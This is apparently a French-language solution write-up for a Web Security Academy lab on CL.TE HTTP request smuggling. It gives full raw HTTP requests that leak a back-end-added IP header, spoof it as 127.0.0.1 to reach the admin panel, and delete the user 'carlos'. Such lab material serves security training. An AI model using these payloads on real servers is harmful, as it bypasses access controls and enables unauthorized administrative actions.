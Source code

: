 # Lab

https://0a720052049641ad83cd5fcd00840023.web-security-academy.net/

## Solution

Le serveur est vulnérable aux attaques CL.TE.

Cette requête permet de leak les headers rajoutés par le back-end sur les requêtes renvoyées :

```http
POST / HTTP/1.1
Host: 0a720052049641ad83cd5fcd00840023.web-security-academy.net
Cookie: session=3Jq3hn0UYcBbQA71N8lRaylEe16bXN3u
Content-Length: 128
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0


POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 250
Connection: close

search=coucou
```

Il faut ajuster le header `Content-Length` de la request smugglée pour que le back-end ne plante pas, ici `250`.

```html
<section class=blog-header>
    <h1>
        0 search results for 'coucouPOST / HTTP/1.1
        X-umaGCv-Ip: x.x.x.x
        Host: 0a720052049641ad83cd5fcd00840023.web-security-academy.net
        Cookie: session=3Jq3hn0UYcBbQA71N8lRaylEe16bXN3u
        Content-Length: 128
        Content-Type: application/x-www-form-urlencoded
        Transfer-Encoding: chunked

        0


        POST / HTTP/1.1
        Con'
    </h1>
</section>
```

Maintenant, avec le header leaké `X-umaGCv-Ip: x.x.x.x`, on peut construire une requête smugglée.

```http
POST / HTTP/1.1
Host: 0a720052049641ad83cd5fcd00840023.web-security-academy.net
Cookie: session=3Jq3hn0UYcBbQA71N8lRaylEe16bXN3u
Content-Length: 146
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0


POST /admin HTTP/1.1
X-umaGCv-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Connection: close

x=1
```

```html
POST / HTTP/1.1
Host: 0a720052049641ad83cd5fcd00840023.web-security-academy.net
Cookie: session=3Jq3hn0UYcBbQA71N8lRaylEe16bXN3u
Content-Length: 169
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0


POST /admin/delete?username=carlos HTTP/1.1
X-umaGCv-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Connection: close

x=1
```